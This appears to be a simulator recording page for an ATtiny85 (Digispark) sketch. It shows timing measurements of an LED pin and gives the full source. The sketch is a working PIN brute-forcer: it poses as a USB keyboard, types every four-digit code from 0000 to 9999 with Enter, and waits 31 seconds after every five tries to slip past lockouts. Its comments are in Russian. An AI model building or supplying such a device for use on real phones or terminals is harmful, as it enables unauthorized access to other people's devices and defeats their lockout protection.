
Recording of a sketch running on a simulated ATtiny85, built with avr-gcc and run on an emulated ATtiny85. On the bench: output pins drawn as LEDs (lit = HIGH).

Above: at 4.0 s.
At 29.2 s:

Timing chart, 0 to 57.3 s (numbered marks = the images above):


Measured:
- by itself, PB1 (LED_PIN): repeats every 41.8 s: 3 × (LOW 2.1 s, HIGH 0.05 s), LOW 2.1 s, HIGH 31.1 s, LOW 2.1 s, HIGH 0.05 s
- by itself, everything shown: repeats every 41.8 s, in 10 steps

The sketch:

pinbrute4pin.ino
```cpp
#include "DigiKeyboard.h"

// Настройка пина для светодиода (на Digispark Model A используется пин 1, на Model B - пин 0)
#define LED_PIN 1

void setup() {
  // Настраиваем пин светодиода как выход
  pinMode(LED_PIN, OUTPUT);

  // Небольшая задержка для инициализации USB
  DigiKeyboard.delay(3000);
}

void loop() {
  // Перебираем все PIN-коды от 0000 до 9999
  for (int pin = 0; pin <= 9999; pin++) {

    // Каждые 5 попыток делаем большую паузу (защита от блокировки)
    if (pin % 5 == 0 && pin > 0) {
      // Включаем светодиод на время паузы
      digitalWrite(LED_PIN, HIGH);

      // Ждём 31 секунду (стандартное время блокировки после 5 неверных попыток)
      for (int i = 0; i < 31; i++) {
        DigiKeyboard.delay(1000);
      }

      // Выключаем светодиод
      digitalWrite(LED_PIN, LOW);
    }

    // Форматируем число в 4-значный PIN (например, 1 -> "0001")
    String pinStr = String(pin);
    while (pinStr.length() < 4) {
      pinStr = "0" + pinStr;
    }

    // Отправляем PIN-код как нажатия клавиш
    DigiKeyboard.print(pinStr);

    // Нажимаем Enter (подтверждение ввода)
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(100);
    DigiKeyboard.sendKeyStroke(0); // Отпускаем все клавиши

    // Небольшая задержка перед следующей попыткой
    DigiKeyboard.delay(2000); // 2 секунды между попытками

    // Мигаем светодиодом после каждой успешной отправки
    digitalWrite(LED_PIN, HIGH);
    DigiKeyboard.delay(50);
    digitalWrite(LED_PIN, LOW);
  }

  // После завершения всех попыток мигаем светодиодом
  while (true) {
    digitalWrite(LED_PIN, HIGH);
    DigiKeyboard.delay(500);
    digitalWrite(LED_PIN, LOW);
    DigiKeyboard.delay(500);
  }
}
```
